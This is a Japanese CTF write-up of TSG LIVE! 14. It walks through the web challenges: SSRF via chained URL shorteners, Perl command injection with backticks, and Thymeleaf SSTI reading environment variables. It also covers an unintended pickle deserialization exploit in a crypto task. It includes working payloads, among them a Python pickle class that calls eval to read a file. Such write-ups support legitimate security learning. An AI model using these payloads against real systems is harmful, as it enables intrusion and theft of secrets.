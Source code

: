 ```yaml
---
title: "TSG LIVE! 14 CTF writeup"
tags:
  - "CTF"
  - "writeup"
---
```


今回は東京大学TSGさんにお誘いいただき、TPCとしてオンサイトで参加させていただきました。
TSG LIVE! 14は五月祭の企画として行われ、そのコンテンツの一つとして2時間半のCTFが開催されました。その他にもコードゴルフや競技プログラミングなどの企画があるようです。

アーカイブはこちら（解説やインタビューがあります）

https://www.youtube.com/live/7Oxm6mKCIjw?si=HrOzfdgtfbOWBeq5

TPC側は9人で参加し、自分はweb問を担当したのでそれを中心に書いていこうと思います。

## web

### Shortnm [8 solves]

> URL短縮サービスを作りました。

<details>
  <summary>問題コード</summary>

```python title=flag/main.py
from fastapi import FastAPI, Request
from fastapi.responses import PlainTextResponse

app = FastAPI()

@app.get("/flag")
async def get_flag(request: Request):
    host = request.headers.get("host", "")
    if host == "flag:45654" and request.url.port == 45654:
        return PlainTextResponse("TSGLIVE{REDACTED}")
    return PlainTextResponse("Access denied", status_code=403)

```

```python title=app/main.py
from fastapi import FastAPI, Query, Request, Response
from fastapi.responses import RedirectResponse, HTMLResponse
from fastapi.templating import Jinja2Templates
import redis
import httpx
import string, random, os

app = FastAPI()
r = redis.Redis(host=os.getenv("REDIS_HOST", "localhost"), port=6379, decode_responses=True)
templates = Jinja2Templates(directory="templates")

def generate_id(length=12):
    return ''.join(random.choices(string.ascii_letters + string.digits, k=length))

@app.get("/", response_class=HTMLResponse)
async def index(request: Request):
    return templates.TemplateResponse("index.html", {"request": request})

@app.get("/shorten")
async def shorten(request: Request, url: str = Query(...), format: str = Query(None)):
    short_id = generate_id()
    r.set(short_id, url)
    
    base_url = str(request.base_url).rstrip("/")
    short_url = f"{base_url}/{short_id}"
    if (format == "json"):
        return {"shorturl": short_url}
    else:
        return templates.TemplateResponse("result.html", {"request": request, "short_url": short_url})

@app.get("/shortem")
async def shortem(request: Request, url: str = Query(...), format: str = Query(None)):
    short_id = generate_id()
    url = 'http://is.gd/create.php?format=json&url='+url
    async with httpx.AsyncClient(follow_redirects=True) as client:
        response = await client.get(url)
    url = response.json()["shorturl"]
    r.set(short_id, url)
    
    base_url = str(request.base_url).rstrip("/")
    short_url = f"{base_url}/{short_id}"
    if (format == "json"):
        return {"shorturl": short_url}
    else:
        return templates.TemplateResponse("result.html", {"request": request, "short_url": short_url})

@app.get("/shortenm")
async def shortenm(url: str = Query(...)):
    short_id = generate_id() 
    url = 'http://localhost:8000/shortem?format=json&url='+url
    async with httpx.AsyncClient(follow_redirects=True) as client:
        response = await client.get(url)
    url = response.json()["shorturl"]
    r.set(short_id, url)
    
    short_id = generate_id() 
    async with httpx.AsyncClient(follow_redirects=True) as client:
        response = await client.get(url)    
    return Response(content=response.content,status_code=response.status_code,media_type=response.headers.get("content-type"))

@app.get("/{short_id}")
async def redirect(short_id: str):
    url = r.get(short_id)
    if url:
        return RedirectResponse(url)
    return HTMLResponse("URL not found", status_code=404)

```

</details>

短縮URLを作るサービス(短縮1->target)、外部の短縮URLを使い作るサービス(短縮2->is.gd->target)、２つ目に通したURLのレスポンスを表示するサービスが提供されている。
これを用いてローカルの`http://flag:45654/flag`を取得したい。

この問題に一番最初に取り掛かった。普通に３つ目のサービスに`http://flag:45654/flag`を入れると見れるんじゃねということで入力してみると`Internal Server Error`が発生。このURLを１つ目のものに通してできた`http://xx.xxx.xxx.xxx:xxxxx/1WmFoYkI93mj`を３つ目に入れてみても同じくエラーが発生。

ここでなぜだろうと唸っていると、チームメンバーがis.gdに目的のURLを入れると、次のようなエラーが発生することを特定してくれた。

```json showLineNumbers=false
{
  "errorcode": 1,
  "errormessage": "Sorry, due to widespread abuse, we no longer allow linking to hosts by IP address."
}
```

要は変なホスト名だったりIPアドレスはダメみたい。なので、これをbypassするために適当な短縮URLサービス(今回は一番上に出てきたX.gd)[^short]を使用し、ターゲットのURLを短縮URLに変換し、それを３つ目に入れるとフラグ獲得。[^hisoutei](短縮2->is.gd->X.gd->短縮1->target)

[^short]: ホントは外部のサービスじゃなくてローカルで立ててngrokとかでやったほうがいいと思うんですが、時間がかかるので今回はこちらを採用しました。
[^hisoutei]: 実は想定解ではないらしい https://x.com/iwashiira/status/1926228844471534076

`TSGLIVE{Cr3a71ng_7h3_SSRF_pr0bl3m_wa5_d1ff1cul7}`

### perling_perler [20 solves]

> perl

<details>
  <summary>問題コード</summary>

```perl title=app/app.perl
#!/usr/bin/env perl
use Dancer2;

set template => 'template_toolkit';

get '/' => sub {
    return template 'index';
};

post '/echo' => sub {
    my $str = body_parameters->get('str');
    unless (defined $str) {
        return "No input provided";
    }

    if ($str =~ /[&;<>|\(\)\$\ ]/) {
        return "<h2>echo:</h2><pre>Invalid Input</pre><a href='/'>Back</a>";
    };

    my $output = `echo $str`;

    return "<h2>echo:</h2><pre>$output</pre><a href='/'>Back</a>";
};

start;

```

</details>

perlを使ったechoをするだけのサービス。明らかなOSコマンドインジェクションが存在している。環境変数にフラグはあります。

続いてこちらの問題を見てみる。前述の通りOSコマンドインジェクションだが、`&;<>|()$`と空白が使用できない。
この場合`` `ls` ``のようにすれば任意のコマンドが実行できそうです。
しかしながらスペースが使用できないので`cat /proc/self/environ`などは実行できません。[^space]ここで方針が浮かばないでいたところ[^osoi]チームメンバーによると`env`コマンドなるものが存在すると...
そのまま別のチームメンバーが解いてくれました。

[^osoi]: この問題だけ以上に問題サーバーが重かったです。なぜ...?
[^space]: スペースは駄目ですが、タブ文字(0x09)を使用すれば行けるみたいです https://x.com/iwashiira/status/1926579710579834905

`` `env` ``と入力して環境変数を取得し、そこにフラグが書いてあります。

```txt showLineNumbers=false
HOSTNAME=27f06e778cd4 HOME=/home/appuser PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin PWD=/app FLAG="TSGLIVE{5h3ll1ng_5h3ll3r}"
```

`TSGLIVE{5h3ll1ng_5h3ll3r}`

### iwi_deco_demo [3 solves]

> JavaのWebアプリはSpring Bootで書くといいらしいです。

<details>
  <summary>問題コード</summary>

```java title=src/main/java/iwi/demo/DemoController.java
package iwi.demo;

import java.time.LocalDateTime;
import java.time.format.DateTimeFormatter;

import org.apache.commons.lang3.StringUtils;
import org.springframework.web.bind.annotation.*;
import org.springframework.ui.Model;
import org.springframework.stereotype.Controller;

@Controller
public class DemoController {
  @GetMapping("/")
  public String home() {
    return "iwi_form";
  }

  @PostMapping("/profile")
  public String showProfile(@RequestParam("userId") String userId, Model model) {
    model.addAttribute("userId", userId);
    return "iwi_profile";
  }

  @GetMapping("/user/{userId}/settings")
  public String userSettings(@PathVariable String userId, Model model) {
    String lastLogin = LocalDateTime.now()
        .format(DateTimeFormatter.ofPattern("yyyy-MM-dd HH:mm:ss"));
    model.addAttribute("userId", userId);
    model.addAttribute("accountType", "Free");
    model.addAttribute("lastLogin", lastLogin);
    model.addAttribute("email", userId + "@example.com");
    model.addAttribute("description", "Please update your email.");
    return "iwi_user";
  }

  @PostMapping("/user/{userId}/settings")
  public String updateSettings(@PathVariable String userId,
      @RequestParam String email,
      @RequestParam String description,
      Model model) {
    String lastLogin = LocalDateTime.now()
        .format(DateTimeFormatter.ofPattern("yyyy-MM-dd HH:mm:ss"));

    if (StringUtils.isBlank(email)) {
      model.addAttribute("message", "Email must not be blank.");
      email = userId + "@example.com";
    }

    if (StringUtils.isBlank(description)) {
      model.addAttribute("message", "Description is required.");
      description = "Please update your email.";
    }

    model.addAttribute("userId", userId);
    model.addAttribute("accountType", "Free");
    model.addAttribute("lastLogin", lastLogin);

    model.addAttribute("email", email);
    model.addAttribute("description", description);
    model.addAttribute("message", "Updated your profile.");

    return "iwi_user";
  }
}

```

```html title=src/main/resources/templates/iwi_profile.html
<!DOCTYPE html>
<html xmlns:th="http://www.thymeleaf.org">

<head>
  <title>IWI-DECO Result</title>
  <style>
    body {
      font-family: sans-serif;
      max-width: 600px;
      margin: 2rem auto;
    }

    .profile-box {
      border: 1px solid #ccc;
      padding: 1rem;
      border-radius: 8px;
    }

    .profile-box h2 {
      margin-top: 0;
    }

    label {
      display: block;
      margin-top: 1rem;
    }
  </style>
</head>

<body>
  <h1>Hello, [[${userId}]]!</h1>
  <p>Click below to go to your settings:</p>
  <a th:href="@{'/user/__${userId}__/settings'}">Go to Settings</a>
</body>

</html>
```

```html title=src/main/resources/templates/iwi_user.html
<!DOCTYPE html>
<html xmlns:th="http://www.thymeleaf.org">

<head>
  <title>IWI-DECO</title>
  <style>
    body {
      font-family: sans-serif;
      max-width: 600px;
      margin: 2rem auto;
    }

    .profile-box {
      border: 1px solid #ccc;
      padding: 1rem;
      border-radius: 8px;
    }

    .profile-box h2 {
      margin-top: 0;
    }

    label {
      display: block;
      margin-top: 1rem;
    }

    input,
    textarea {
      width: 100%;
      padding: 0.5rem;
    }

    .readonly {
      background-color: #f5f5f5;
    }

    .msg {
      color: green;
      font-weight: bold;
    }
  </style>
</head>

<body>
  <h2>Settings for [[${userId}]]</h2>
  <div th:if="${message}" class="msg">[[${message}]]</div>

  <form th:action="@{/user/{id}/settings(id=${userId})}" method="post">
    <label>User ID:</label>
    <input type="text" th:value="${userId}" readonly class="readonly" />

    <label>Account Type:</label>
    <input type="text" th:value="${accountType}" readonly class="readonly" />

    <label>Last Login:</label>
    <input type="text" th:value="${lastLogin}" readonly class="readonly" />

    <label for="email">Email:</label>
    <input type="email" id="email" name="email" th:value="${email}" />

    <label for="description">Description:</label>
    <textarea id="description" name="description" rows="4" th:text="${description}"></textarea>

    <button type="submit" style="margin-top: 1rem;">Save</button>
  </form>
</body>

</html>

```

</details>

Javaのspring-bootを使用したサービスです。ユーザー名を入力したらそれのプロフィール画面に遷移でき、そこからプロフィール設定画面に遷移できます。

テンプレートを使用しているので、SSTIが濃厚かなと思いながら眺めていましたがJavaはあまり触ってこなかったので色々見ていました。

そこでチームメンバーからOGNLというキーワードが。調べてみるとspring-bootはThymeleaf[^Thymeleaf]を使用していて、そこでSSTIができそう。

[^Thymeleaf]: 読み方はタイムリーフらしい

https://blog.hamayanhamayan.com/entry/2021/12/20/215208

「Thymeleaf SSTI」で調べてみると、どうやらペイロードの一つに`'+${7*7}+'`というものがあるようで、これをサイトに入力しプロフィールから設定に遷移すると、userIdが`49`になりSSTIが成功しました。

https://github.blog/security/vulnerability-research/bypassing-ognl-sandboxes-for-fun-and-charities/

https://modzero.com/en/blog/spring_boot_ssti/

それよりも少し前にチームメンバーも同様のペイロードを確認していて、`"".getClass()`のようなやり方で環境変数を取得するペイロードをなんとか組み立てれないか試行錯誤しているようだったので、自分はThymeleafに環境変数を取得できる方法が存在していないかを調べてみることに。

「thymeleaf environment」で調べてみると、どうやら`${@environment.getProperty('property.key')}`のようなコードで環境変数を取得できるっぽい。[^hisoutei2]

[^hisoutei2]: おそらくこれは非想定解でもっと複雑なペイロードが期待されていたっぽい。 https://nanimokangaeteinai.hateblo.jp/entry/2025/05/24/153344#Web-428-iwi_deco_demo-3-solves

https://blog.tagbangers.co.jp/ja/2015/01/18/thymeleaf-environment-properties.html

```txt showLineNumbers=false
'+${@environment.getProperty("FLAG")}+'
```

これをUser IDに入れて同様にユーザー設定まで行くとフラグを獲得。

`TSGLIVE{5pr1ng_b007_5571_w17h_apach3_lang3_by_PARZEL}`

## その後

自分の担当分野であるweb問題がとき終わってからは残っている問題であるcryptoとpwnを眺めていましたが、全くわからず。[^muzukasii]

[^muzukasii]: そりゃ難しい問題だけが残っているわけで...

そんな中チームメンバーがcyptoの問題に脆弱性を発見したようで。どうやらcryptoの後ろ２つの問題ではpickleが使用されていて、これを悪用することでフラグの値が抜けると！天才か？
そのまま2つのフラグが獲得できてしまい、部屋は大盛りあがりでした。

<details>
  <summary>問題コード</summary>

```python title=problem.sage
#!/usr/bin/env sage 
from flag import flag

def sage_encode(obj):
    from sage.misc.persist import SagePickler
    from base64 import b64encode
    return b64encode(SagePickler.dumps(obj)).decode('ascii')

def sage_decode(enc_data):
    from base64 import b64decode
    import pickle
    return pickle.loads(b64decode(enc_data))

class Isogeny_decomp:
    def __init__(self,P,order_P = -1):
        if isinstance(P,list):
            for i in range(len(P)-1):
                assert P[i].codomain() == P[i+1].domain()
            self.isogenies = P[:]
            return
        if order_P == -1:
            order_P = P.order()
        self.isogenies = []
        for p,c in factor(order_P):
            for i in range(c):
                phi = P.curve().isogeny((order_P//p)*P)
                self.isogenies.append(phi)
                P = phi(P)
                order_P //= p
                if P == P.curve()((0,1,0)):
                    break
            if P == P.curve()((0,1,0)):
                break
    def __call__(self,P):
        for phi in self.isogenies:
            P = phi(P)
        return P
    def __mul__(self,other):
        assert other.isogenies[-1].codomain().j_invariant() == self.isogenies[0].domain().j_invariant()
        isom = other.isogenies[-1].codomain().isomorphism_to(self.isogenies[0].domain())
        return Isogeny_decomp(other.isogenies + [isom] + self.isogenies)
    def dual(self):
        ret = []
        for phi in self.isogenies:
            ret.append(phi.dual())
        ret.reverse()
        return Isogeny_decomp(ret)
    def domain(self):
        return self.isogenies[0].domain()
    def codomain(self):
        return self.isogenies[-1].codomain()

#SIKEp434
e2 = 0xD8
e3 = 0x89
p = 2**e2*3**e3-1
R.<x> = GF(p)[]
k.<i> = GF(p**2,modulus=x**2+1)

xQ30 = 0x00012E84_D7652558_E694BF84_C1FBDAAF_99B83B42_66C32EC6_5B10457B_CAF94C63_EB063681_E8B1E739_8C0B241C_19B9665F_DB9E1406_DA3D3846
xQ31 = 0x00000000
yQ30 = 0x00000000
yQ31 = 0x0000EBAA_A6C73127_1673BEEC_E467FD5E_D9CC29AB_564BDED7_BDEAA86D_D1E0FDDF_399EDCC9_B49C829E_F53C7D7A_35C3A074_5D73C424_FB4A5FD2
xP30 = 0x00008664_865EA7D8_16F03B31_E223C26D_406A2C6C_D0C3D667_466056AA_E85895EC_37368BFC_009DFAFC_B3D97E63_9F65E9E4_5F46573B_0637B7A9
xP31 = 0x00000000
yP30 = 0x00006AE5_15593E73_97609197_8DFBD70B_DA0DD6BC_AEEBFDD4_FB1E748D_DD9ED3FD_CF679726_C67A3B2C_C12B3980_5B32B612_E058A428_0764443B
yP31 = 0x00000000
xR30 = 0x0001CD28_597256D4_FFE7E002_E8787075_2A8F8A64_A1CC78B5_A2122074_783F51B4_FDE90E89_C48ED91A_8F4A0CCB_ACBFA7F5_1A89CE51_8A52B76C
xR31 = 0x00014707_3290D78D_D0CC8420_B1188187_D1A49DBF_A24F26AA_D46B2D9B_B547DBB6_F63A760E_CB0C2B20_BE52FB77_BD2776C3_D14BCBC4_04736AE4


xP3 = xP30+xP31*i
xQ3 = xQ30+xQ31*i
xR3 = xR30+xR31*i
yP3 = yP30+yP31*i
yQ3 = yQ30+yQ31*i

ec_start = EllipticCurve(k,[0,6,0,1,0])
P3 = ec_start((xP3,yP3))
Q3 = ec_start((xQ3,yQ3))

import secrets
sk3 = int(secrets.randbelow(int(3)**e3))
sp3 = P3+sk3*Q3

isogeny = Isogeny_decomp(sp3,3**e3)
E1 = isogeny.codomain()
import sys
print(E1,file=sys.stderr)

P = sage_decode(input("Enter a point: "))
print(sage_encode(isogeny(P).xy()))
P = sage_decode(input("Enter a next point: "))
print(sage_encode(isogeny(P).xy()))

user_sk = int(input("Enter your answer: "))
if user_sk == sk3:
    print("Correct")
    print(flag)
else:
    print("Incorrect")

```

</details>

ここで実際にやってみる。pickleのexploitを用意し、

```python
import base64
import pickle

class Exploit:
  def __reduce__(self):
    return (
      eval,
      ("dict(print(open('./flag.py').read()),)",)
    )

data = base64.b64encode(pickle.dumps(Exploit())).decode('utf8')
print(f"data: {data}")
```

これを実行すると、

![実行結果](../../images/ctf/tsg-live-14/hisoutei3.png "実行結果")

フラグが取れてしまいました。web人間としてはこれは気づきたかった... 悔しい...

## まとめ

![リザルト画像](../../images/ctf/tsg-live-14/result.png "リザルト画像")

CTF初めて数ヶ月、初めてオンサイトのCTFに参加しましたが、わいわいできて非常に楽しかったです。招待してくださったTSGの皆様と、誘ってくれたチームメンバーに感謝！
イベントの結果としてはTSGに勝利し、3988ptで全体では２位という結果でした。１つでもフラグ取れれば良いかなーと思ってましたが２つも取れて結果に寄与できて良かったです。

終了後はメンバーと五月祭を回ったりしました。弊学とは違うところが多く新鮮でした。そして初対面の人とたくさん話せて非常に良かったです。

<blockquote class="twitter-tweet"><p lang="ja" dir="ltr">めん <a href="https://t.co/LokMHPEOOf">pic.twitter.com/LokMHPEOOf</a></p>&mdash; kasi (@kq5y__) <a href="https://twitter.com/kq5y__/status/1926222996248653873?ref_src=twsrc%5Etfw">May 24, 2025</a></blockquote>
